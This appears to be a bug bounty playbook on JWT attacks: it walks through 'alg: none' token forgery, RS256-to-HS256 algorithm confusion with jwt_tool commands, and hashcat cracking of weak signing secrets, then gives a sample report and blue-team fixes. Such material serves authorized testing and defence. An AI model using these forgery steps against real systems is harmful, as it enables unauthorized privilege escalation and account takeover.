


# JWT Forgery & Algorithm Confusion

## When to Use
- When HTTP requests utilize an `Authorization: Bearer <token>` consisting of three base64url-encoded strings separated by periods (`header.payload.signature`).
- When encountering stateless authentication mechanisms storing user identifiers or roles (e.g., `{"role": "user", "uid": 12}`) directly within the token payload.
- To escalate user privileges by forging the signature of a token claiming admin status.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Decoding and Inspection

```text
# Concept: A JWT is simply Base64URL encoded JSON. You can read the contents without the secret key.

# 1. Base JWT Structure:
# HEADER.PAYLOAD.SIGNATURE
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.H0C3aXZ5K...

# 2. Decode using jwt.io, Burp Suite (JSON Web Tokens extension), or Base64 decoding
HEADER:  {"alg": "RS256", "typ": "JWT"}
PAYLOAD: {"user": "hacker", "role": "guest", "exp": 171822211}

# 3. Identify your target manipulation
If you change `"guest"` to `"admin"`, the signature will immediately invalidate. We must forge a valid signature.
```

### Phase 2: The "None" Algorithm Attack

```text
# Concept: Some JWT libraries insecurely trust the "alg" specified in the header. 
# If we change the algorithm to "none", the library assumes no signature is required.

# 1. Modify the Header to define "none"
{"alg": "none", "typ": "JWT"} -> eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0

# 2. Modify the Payload to elevate privileges
{"user": "hacker", "role": "admin"} -> eyJ1c2VyIjoiaGFja2VyIiwicm9sZSI6ImFkbWluIn0

# 3. Assemble and Strip the Signature
# Notice the trailing dot. We must leave the dot to indicate the payload section has finished, but omit the signature.
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiaGFja2VyIiwicm9sZSI6ImFkbWluIn0.

# 4. Attempt the request.
GET /admin/dashboard HTTP/1.1
Authorization: Bearer eyJhbG...

# Bypasses: If the backend filters `none`, fuzz the case: `None`, `NONE`, `nOnE`.
```

### Phase 3: Algorithm Confusion Attack (RS256 -> HS256)

```text
# Concept: RS256 uses Asymmetric Keys (Public key to verify, Private key to sign).
# HS256 uses Symmetric Keys (One secret to both sign AND verify).
# Flaw: If an attacker changes the header from RS256 to HS256, the server insecurely uses its Public Key 
# as the "symmetric secret" to verify the token. 
# Since Public Keys are often accessible (e.g., on `/jwks.json`), the attacker can sign the token using the Public Key!

# 1. Retrieve the Public Key exposed by the application
GET /.well-known/jwks.json
# Save it as `public.pem`.

# 2. Craft the malicious token payload
Header: {"alg": "HS256"}
Payload: {"role": "admin"}

# 3. Sign it using the PUBLIC key as an HMAC secret (via jwt-tool)
python3 jwt_tool.py -I -hc alg -hv HS256 -S hs256 -k public.pem <Original_JWT>

# 4. The server receives the HS256 token, loads the Public Key from memory (expecting to verify an RS256 token),
# executes the HS256 HMAC math using the Public Key structure as a string, and validates your token!
```

### Phase 4: Offline Secret Cracking (HS256)

```bash
# Concept: Developers often use extremely weak secrets string like "secret123" for HS256 tokens.

# 1. Save your JWT to a file (token.txt)
# 2. Use Hashcat to crack the signing secret.
hashcat -a 0 -m 16500 token.txt rockyou.txt

# 3. If cracked (e.g., the secret was "apple"), sign your own admin tokens.
python3 jwt_tool.py -I -S hs256 -p "apple" <Original_JWT>
```

#### Decision Point 🔀



### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **Hardcode the Algorithm**: Never blindly trust the `"alg"` parameter specified in the incoming JWT Header. The verification API call must strictly hardcode the expected algorithm.
  - VULNERABLE: `jwt.verify(token, key)` (Automatically pulls algorithm from header)
  - SECURE: `jwt.verify(token, key, algorithms=["RS256"])` (Throws exception if token tries to switch to None or HS256)
- **Strong Secrets**: If using symmetric HS256, cryptographically generate a random secret possessing at least 256 bits of entropy. A human-readable string is vulnerable to offline, extremely rapid Hashcat GPU cracking.
- **Library Updates**: The classic "none" and Algorithm Confusion attacks exploit logical flaws present in older, deprecated JWT libraries (pre-2018). Ensure all dependencies are patched.

## Key Concepts
| Concept | Description |
|---------|-------------|
| JWT | JSON Web Token; a compact, URL-safe means of representing claims (authentication data) securely between two parties |
| Base64URL | A variation of Base64 encoding utilizing a web-safe alphabet (omitting `+` and `/`) preventing parsing errors in HTTP headers |
| JWKS | JSON Web Key Set; an endpoint commonly exposed by OAuth providers revealing the cryptographic public keys used to mathematically verify JWT signatures |
| HMAC | Hash-based Message Authentication Code; providing data integrity and authenticity using a secret shared key (HS256) |

## Output Format
```
Bug Bounty Report: Authentication Bypass via JWT Algorithm Confusion
====================================================================
Vulnerability: Authorization Bypass (Algorithm Confusion RS256 -> HS256)
Severity: Critical (CVSS 9.1)
Target: `Authorization: Bearer <token>` validation microservice

Description:
The authentication microservice relies on the vulnerable `python-jwt v2.0.1` library. While the application issues RSA 256 generated tokens, it insecurely parses the `alg` header during the verification phase.

By downloading the target's public key from `https://target.com/.well-known/jwks.json`, altering the JWT header to utilize the symmetric `HS256` algorithm, and subsequently signing the token locally using the public key file as an HMAC string, an attacker can mathematically forge valid authorization tokens.

Reproduction Steps:
1. Capture standard user JWT.
2. Obtain target public certificate `pub.pem`.
3. Construct payload: `{"role": "superuser", "id": 1}`.
4. Execute token generation utilizing jwt-tool:
   `python3 jwt_tool.py -I -hc alg -hv HS256 -S hs256 -k pub.pem <jwt>`
5. Submit the newly minted token to the `/api/v1/billing` endpoint.

Impact:
Unauthenticated critical vertical privilege escalation. Attacker can act as any administrative user.
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Real-World Disclosed Bounties (JWT)

| Company | Bounty | Researcher | Technique | Year |
|---------|--------|-----------|-----------|------|
| **HackerOne (Jira integration)** | $2,500 | updatelap | JWT leak in Jira plugin → unauthorized access to Jira data | 2024 |
| **HackerOne program** | (Duplicate) | (Undisclosed) | JWT tokens in URLs + plaintext creds in JWT payloads → full ATO | 2023 |

**Key Lesson**: JWT-in-URL is a classic finding — tokens leak via Referer headers, server logs,
and browser history. The duplicate status on the second report proves: **submit fast, submit first**.

**Real attack flow that gets paid:**
1. Intercept JWT from target app
2. Decode payload at jwt.io — check for sensitive data in claims
3. Test `alg: none` → does the server accept unsigned tokens?
4. Test RS256→HS256 confusion → sign with public key as HMAC secret
5. Modify claims (role: admin, user_id: victim) → test authorization bypass

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- PortSwigger: [JWT Attacks](https://portswigger.net/web-security/jwt)
- OWASP: [JSON Web Token (JWT) Vulnerabilities](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/10-Testing_JSON_Web_Tokens)
- jwt-tool: [Tool Repository](https://github.com/ticarpi/jwt_tool)
